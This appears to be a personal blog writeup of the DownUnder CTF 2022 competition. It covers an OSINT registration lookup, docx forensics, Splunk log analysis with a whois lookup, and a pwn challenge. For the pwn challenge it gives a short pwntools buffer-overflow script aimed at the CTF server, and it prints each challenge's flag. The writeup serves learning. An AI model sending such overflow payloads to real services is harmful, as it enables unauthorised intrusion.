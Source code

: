 ```yaml
---
layout: post
title: "DownUnder CTF 2022 Writeups"
date: 2022-09-25 17:15:00 +0530
categories: CTF
tags: september-2022
---
```


Hey fellow hackers, Welcome back to my another writeup. This week I played the **Downunder CTF 2022**. I wasn't able to solve many challenges since I was busy with some other tasks but I did manage to capture flags for some of the challenges. I managed to grab **350** points and my team ended up at **707th** position. Hope you enjoy my writeups and get to learn something new.

<br>
<h1><b><u>OSINT</u></b></h1>

<br><img src="/assets/images/downunder_ctf_2022/score.png" alt="score">

<br>
## Honk Honk

<br><img src="/assets/images/downunder_ctf_2022/honk_honk_1.png" alt="honk_honk">

<br>
As per this challenge, we have to figure out the date when's the CTP (Compulsory Third Party) insurance is about to be expired. There are many webistes out there to check the CTP repo status and the date when its about to expire. So, I decided to use the [Service NSW](https://free-rego-check.service.nsw.gov.au/) website to find the CTP rego status.

<br><img src="/assets/images/downunder_ctf_2022/honk_honk_2.png" alt="honk_honk">

<br>
I inputted the given car registration number which is **23HONK** and I got the complete details of the registration details. 

<br><img src="/assets/images/downunder_ctf_2022/honk_honk_3.png" alt="honk_honk">

<br><img src="/assets/images/downunder_ctf_2022/honk_honk_4.png" alt="honk_honk">

<br>
So, as you can see that the CTP insurance expire date is **19 July 2023**.

Therefore, the flag for this challenge would be:
> DUCTF{19/07/2023}

<br>
<h1><b><u>DFIR</u></b></h1>

<br>
## Dox Me

<br><img src="/assets/images/downunder_ctf_2022/dox_me_1.png" alt="dox_me">

<br>
In this challenge, we are give a **doxme** file and since the category of this challenge is **DFIR** so I assume that its related to the forensics. I downloaded the file and ran the **file** on it.

<br><img src="/assets/images/downunder_ctf_2022/dox_me_2.png" alt="dox_me">

<br>
`file` command revealed that this is a **Microsoft OOXML** and after some google research, I found out that this is a word **docx** file. I added the **.docx** extension to the file so that I can see what does the file contains.

<br><img src="/assets/images/downunder_ctf_2022/dox_me_3.png" alt="dox_me">

<br>
We can see the half part of the flag in the document but we need the complete flag before we can submit it. After this, I tried various methods to find other half of the flag such as running `strings` commands to find the complete flag on the docx file but then I remember that I can also unzip the docx file and extract the files.
```
unzip doxme.docx -d doxme
```

<br><img src="/assets/images/downunder_ctf_2022/dox_me_4.png" alt="dox_me">

<br>
After browsing through all these files, I came across two PNGs image files in `doxme/word/media` which is unusal since we only saw one image when we opened up the file. So, our flag must be in the other image. 

<br><img src="/assets/images/downunder_ctf_2022/dox_me_5.png" alt="dox_me">

<br>
Found the other half part of the flag. Now, our flag is completed:
> DUCTF{WOrd_D0Cs_Ar3_R34L1Y_W3ird}

<br>
## Shop-Setup&Disclaimer

<br><img src="/assets/images/downunder_ctf_2022/shop_setup_1.png" alt="shop_setup">

<br>
The provided json data file is not in the proper format so first of all I fixed the format of the data using the VS code editor.

<br><img src="/assets/images/downunder_ctf_2022/shop_setup_2.png" alt="shop_setup">

> IAgreeToTheTeasAndTheSeas

<br>
## Shop-Knock Knock Knock

<br><img src="/assets/images/downunder_ctf_2022/shop_knock_knock_knock_1.png" alt="shop_knock_knock_knock">

<br>
I loaded the data up in [Splunk Cloud](https://www.splunk.com/) cloud instance. Now, its time to search & analyze the log data.

<br><img src="/assets/images/downunder_ctf_2022/shop_knock_knock_knock_2.png" alt="shop_knock_knock_knock">

<br>
Our objective is to find the email address of the ISP of the attackers. So, first of all, we have to find the IP address of the attacker. In our splunk cloud instance, we can see that the most requests came from the `58.164.62.91` IP address so this is probably the IP address of the attacker.

<br><img src="/assets/images/downunder_ctf_2022/shop_knock_knock_knock_3.png" alt="shop_knock_knock_knock">

<br>
Also, the time span between the login requests is very less as you can see below that the time span between the requests is between 2-3 seconds on average. So, this proves that this is the IP address of our attacker. 

<br><img src="/assets/images/downunder_ctf_2022/shop_knock_knock_knock_4.png" alt="shop_knock_knock_knock">

<br> The only step left to do is to find the ISP of this IP address and the email address of the ISP. So for this, I used [Whois Domain Tools](https://whois.domaintools.com/). This gave me the name of the ISP (**Telstra Internet**) and the email address of the ISP (**abuse@telstra.net**).

<br><img src="/assets/images/downunder_ctf_2022/shop_knock_knock_knock_5.png" alt="shop_knock_knock_knock">

> abuse@telstra.net

<br>
<h1><b><u>PWN</u></b></h1>

<br>
## Babyp(y)wn

<br><img src="/assets/images/downunder_ctf_2022/baby_pywn_1.png" alt="baby_pywn">

<br>
Baby Pwn is a pwn challenge in which I have to exploit the buffer overflow vulnerability in order to capture the flag. So, I installed `pwntools` and I wrote a simple script to fetch the flag.
```
from pwn import *

conn_obj = remote("2022.ductf.dev", 30021)
conn_obj.sendline(b"f" * 512 + b"DUCTF")

flag = conn_obj.recvline().decode()
print(flag)
```

<br>
After running the above script, I got the baby flag:
> DUCTF{C_is_n0t_s0_f0r31gn_f0r_incr3d1bl3_pwn3rs}

<br>
**So folks, that's it for this writeup. I will be back with more challenges in the next writeup. So, till then be safe and stay happy 😊**